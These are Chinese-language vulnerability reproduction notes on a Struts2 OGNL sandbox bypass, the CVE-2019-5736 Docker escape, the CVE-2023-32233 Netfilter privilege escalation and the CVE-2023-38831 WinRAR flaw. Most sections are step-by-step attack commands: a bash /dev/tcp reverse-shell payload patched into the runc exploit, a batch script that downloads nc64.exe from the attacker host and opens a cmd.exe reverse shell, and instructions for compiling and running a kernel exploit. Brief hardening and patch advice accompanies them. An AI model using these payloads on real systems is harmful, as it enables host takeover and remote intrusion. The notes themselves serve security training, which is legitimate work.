第一个问题，Object-GraphNavigationLanguage(对象图导航语言)，一种开源的Java表达式语言用于对数据进行访问，拥有类型转换、访问对象方法、操作集合对象等功能

第二个问题的回答
1、OGNL是Struts默认支持的表达式语言
2、OGNL可以取值赋值、访问类的静态方法和属性
3、访问OGNL上下文。Struts的上下文根对象：ValueStack
4、%{}用来把字符串转换成表达式，其中url编码%25就是%
5、可以在struts.xml和struts标签等地方使用OGNL表达式

第三个问题需要具体分析payload,主要需要理解以下内容。
InstanceManager：用于实例化任意对象
BeanMap：可以调用对象的getter、setter，setBean()可以更新对象。
valueStack：ONGL的根对象
memberAccess：控制对象的访问，有两个方法setExcludedPackageNames()、setExcludedClasses()清除黑名单
Execute类：属于黑名单类，其中的exec方法可以执行Shell。
```

```
具体来说就是根据，首先创建一个beanMap对象，让beanMap对象获取ValueStack类(ONGL根对象)的一些相关信息，于是即可提取memberAccess的相关信息，主要用于控制对象的访问，于是即可让beanMap采用setter方法把包名和类名的黑名单全部清空。然后通过InstanceManger实例化freemarker.template对象，这个对象可以使用exec来执行任意的代码。

总结:使用BeanMap绕过了Struts2的黑名单（沙盒机制），并实例化了可以执行代码的类。
```

	

### 检测和修复

```
无非升级struts版本，要么使用waf等安全产品。检测的话可以进行流量分析，判断这些关键字信息。
```

## CVE-2019-5736Docker逃逸

### 前置知识

```
没有使用docker前遇到的情况。环境差异不能统一。
会出现重复部署、迁移环境、环境依赖的问题。
```

	

```
使用docker可以保证环境的一致性，便于业务的迁移。
docker的作用:
1、实现快速部署（镜像），例：vulhub.org
2、解决环境一致性的问题，例：部署应用
3、提升服务器的利用率，降低成本，例：安装服务
4、隔离不同的应用
```

	

```
docker相比起虚拟机没有独立的虚拟机操作系统，占用的资源更少，主要是共用物理机的操作系统，容器相当于是物理机的一个进程。
```

	

```
但是docker相比虚拟机隔离性较弱，也就有了本次需要演示的漏洞。
```

	

```
核心概念:
镜像Image：打包好的应用环境，模板，不能修改Nginx、Tomcat、MySQL、淘宝商城、Ubuntu镜像，带具体版本号…… 
容器Container：镜像+读写层
有状态：运行、暂停、停止
仓库Registry：存放各种镜像，提供上传和下载
官方仓库：https://hub.docker.com
```

	

```
这是一个docker启动mysql服务器的命令，以下是一些参数的解释。
run 表示创建并运行一个容器
-d 表示后台运行（deamon）
-p 表示容器内部端口和服务器端口映射关联。前面的数字是映射的端口，后面的数字是
真实的端口。代表把容器的 3306端口映射到虚拟机的 3307 端口。
--privileged=true 设值 MySQL 的 root 用户权限, 否则外部不能使用 root 用户登陆
-v /docker/mysql/conf/my.cnf:/etc/my.cnf 将服务器中的my.cnf 配置映射到 docker
中的/docker/mysql/conf/my.cnf 配置
-v /docker/mysql/data:/var/lib/mysql 同上，映射数据库的数据目录, 避免以后
docker 删除重新运行 MySQL 容器时数据丢失
-e MYSQL_ROOT_PASSWORD=123456 设置MySQL 数据库 root 用户的密码
--name mysql 设值容器名称为 mysql
mysql:5.7 表示从 docker 镜像 mysql:5.7 中启动一个容器
--character-set-server=utf8mb4 --collation-server=utf8mb4_general_ci 设值数据
库默认编码
```

	

	

	

### 漏洞复现

```
什么叫Docker逃逸？
“容器相当于一个小型的Linux操作系统，有自己磁盘、网络、进程、用户体系。”
总的来说就是从Docker权限拿到主机root权限
```

```
Docker逃逸原因类型
1、由操作系统内核漏洞引起：CVE-2016-5195（脏牛）
2、由Docker本身的漏洞引起：CVE-2019-5736、CVE- 2019-14271
3、由Docker配置和使用不当引起
1）开启privileged（特权模式）
2）宿主机目录挂载（文件挂载）
3）docket remote api未授权访问导致逃逸
参考：
https://cloud.tencent.com/developer/article/1987725

本次漏洞复现是利用CVE-2019-5736。
```

```
CVE-2019-5736 环境搭建
条件：
root运行Docker
Docker Version < 18.09.2
runc版本<=1.0-rc6
```

```
漏洞主要利用流程，是建立在已经控制了一个容器，此时我们可以在容器中下载自己搭建的web服务器中提供的恶意exp文件，在容器下载并运行该文件，于是kali通过监听的连接收到反弹shell。
```

	

```
靶机可以通过资料提供的位置去下载。
首先查看版本确定是不是能够复现的docker版本。
```

	

```
首先运行一个容器，部署靶场。
docker run -it ubuntu:18.04 "/bin/bash"
```

	

```
当我们控制了一台机器，可以通过该命令确认是不是容器,如果没有这个文件肯定不是容器，容器一定会有这个文件。
ls /.dockerenv
```

	

```
准备好一个http服务器，用于提供恶意exp文件。
首先安装git
yum install git
然后把exp先下载下来。
```

	

```
编写这个恶意的go文件。
```

	

```
找到payload的关键字，并替换成以下语句，用于反弹shell到kali机器上。
var payload = "#!/bin/bash \n bash -i >& /dev/tcp/192.168.15.128/7777 0>&1" + shellCmd
```

	

```
由于是go环境，需要安装go的一些编译环境。
yum install epel-release
yum install golang
并编译这个main.go成可执行的文件
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
```

	

```
由于centos7启动http服务有点问题，于是使用kali打开http服务器，并把exp恶意文件放到kali上。
python -m http.server 8888
```

		

```
测试访问这个页面，能否下载文件，能下载说明http服务器部署完毕。
http://192.168.15.128:8888/main
```

```
kali最好端口监听，等待反弹shell.
nc -lvvp 7777
```

	

```
然后想办法把恶意文件下载到容器中，这里直接在靶机部署的虚拟机直接下载，并传入容器中。
curl -O http://192.168.15.128:8888/main
```

	

```
把下载好的恶意文件复制到容器中。
docker cp ./main  f0edfcf0b9ef:/home
```

	

```
登陆容器，将main文件设置最高权限。
docker exec -it f0edfcf0b9ef /bin/sh
cd /home
chmod 777 main
```

	

```
运行恶意的exp，修改runc文件，这样当下次使用docker exec就会触发反弹shell.
./main
```

	

```
此时当运维人员，使用docker exec操作容器，就会触发恶意反弹shell命令
docker exec -it f0edfcf0b9ef /bin/bash
```

	

```
获得shell.
```

		

```
攻击原理：
在runc exec加入到容器的命名空间之后（runc运行原理），容器内进程已经能够通过内部/proc（虚拟文件系统）观察到
它，此时如果打开/proc/[runc-PID]/exe并写入一些内容，就能够实现将宿主机上的runc二进制程序覆盖。下一次用户调用runc去执行命令时，实际执行的将是攻击者放置的指令。
总结：
篡改了系统的runc文件，在其中加入恶意代码，在下一次运行run exec的时候导致恶意代码执行。
```

### docker安全加固

```
可以使用自动化利用工具，看是否安全
https://github.com/cdk-team/CDK

Docker加固建议
1、升级Docker到最新版
2、升级Linux内核
3、不建议以root权限运行Docker服务
4、不建议以privileged（特权模式）启动Docker
5、不建议将宿主机目录挂载至容器目录
6、不建议将容器以--cap-add=SYSADMIN启动，SYSADMIN意为container进程允许执行mount、umount等一系列系统管理操作，存在容器逃逸风险
参考资料：
https://mp.weixin.qq.com/s/R5DV0X3QpYmaxVxIexRYgA
```

## CVE-2023-32233NetFilter权限提升

```
查看内核与发行版的版本命令
uname -r
cat /proc/version
cat /etc/lsb-release
```

```
权限提升的一些方式
操作系统内核漏洞（脏牛、dirty pipe、dirty cred）、SUID、SUDO、定时任务、添加用户、SSH Key、第三方软件（MySQL、NFS等
```

```
Netfilter
Linux 内核中的网络数据包处理框架（iptables）通过各种规则和过滤器，基于数据包的来源、目标地址、协议类型、端口号等信息，控制网络流量和数据包的转发和处理。
https://blog.csdn.net/weixin_42915431/article/details/121997982

漏洞描述
nftables（2014年1月19日），在很多Linux发行版中默认启用
成因：Linux 内核的 Netfilter 子系统在处理批量请求更新nf_tables 配置信息时，由于处理匿名集的逻辑存在缺陷，存在释放重利用（UAF）漏洞。

UAF漏洞
Use After Free：重用释放后的内存空间，有点类似使用非法内存空间。
https://blog.csdn.net/lyshark_lyshark/article/details/125852426

漏洞影响
官方通报时间：2023-05-08
评级：高危
影响版本：v5.1-rc1 <= Linux Kernel <= 6.3.1
不受影响版本：Linux kernel > 6.3.1 Linux kernel < 5.1-rc1
```

### 漏洞复现

```
部署靶场的环境。
操作系统：Ubuntu 23.04 Lunar
1、做好的镜像（免安装，带编译好的exp，推荐）
https://pan.baidu.com/s/1yQUrToQTiaDXcsHYVeKeSQ?pwd=8888
2、镜像下载（自己安装依赖）
https://releases.ubuntu.com/lunar/
```

```
利用流程:
EXP地址&Readme文档：https://github.com/Liuk3r/CVE-2023-32233,下载恶意提权c文件。
编译需要的环境：
sudo apt install gcc libmnl-dev libnftnl-dev
编译：
gcc -Wall -o exp exp.c -lmnl -lnftnl，将恶意的exp.c文件编译成可执行文件exp。
运行（普通用户）：
./exp
```

```
查看内核版本发现符合要求。
```

	

```
比如以wuya用户执行这个文件。
```

	

```
执行之后提权成功。
```

	

### 漏洞修复

```
修复方案
1、内核升级到6.3.2及以上
2、临时解决措施
禁用用户命名空间，RHEL 8用户可参考：
https://www.stigviewer.com/stig/red_hat_enterprise_linux_8/2021-12- 03/finding/V-230548
将内核模块 nf_tables 列入黑名单来防止加载受影响的代码，参考：https://access.redhat.com/solutions/41278
```

## CVE-2023-38831WinRAR代码执行漏洞

### 漏洞复现

```
python -m http.server 8888
nc64.exe文件放到kali指定目录，并打开python服务，确保靶机能下载到nc64.exe文件。
```

	

```
kali监听7777端口，等待反弹链接
```

	

```
本地准备好poc压缩包。
里面包含一个test.png和script.bat，其中png文件是用于混淆的，其实也可以不要。
其中script.bat的脚本如下，用于下载kali提供恶意文件，并执行反弹shell到kali机器上。
curl http://192.168.15.128:8888/nc64.exe -O nc64.exe & nc64.exe 192.168.15.128 7777 -e cmd.exe -d & test.png
```

```
然后使用python脚本，制作好poc恶意压缩包。恶意的压缩包是被设计好的，图片文件的名称和目录名称都是一样的。
python .\make.py test.png script.bat poc.zip
```

```
注意这个恶意压缩包的文件内容。后续会讲原理
```

	

	

```
将poc.zip压缩包放到靶机上，点击压缩包里面的图片文件双击执行。就会触发恶意反弹shell命令执行。
```

	

```
于是获得shell成功。
```

	

### 漏洞原理

```
漏洞原理如下，首先当点击这个图片文件，winrar会查找同名的文件和目录，当找到同名的目录，就会检查该目录下的文件，如果该目录下的文件也存在同名文件，则会放入提取列表中，虽然我们之前看目录里面的文件名是test.png .cmd，但实际上中间有个空格会截断，所以winrar会认为test.png是同名文件。最后导致提取解压并运行。
```

	


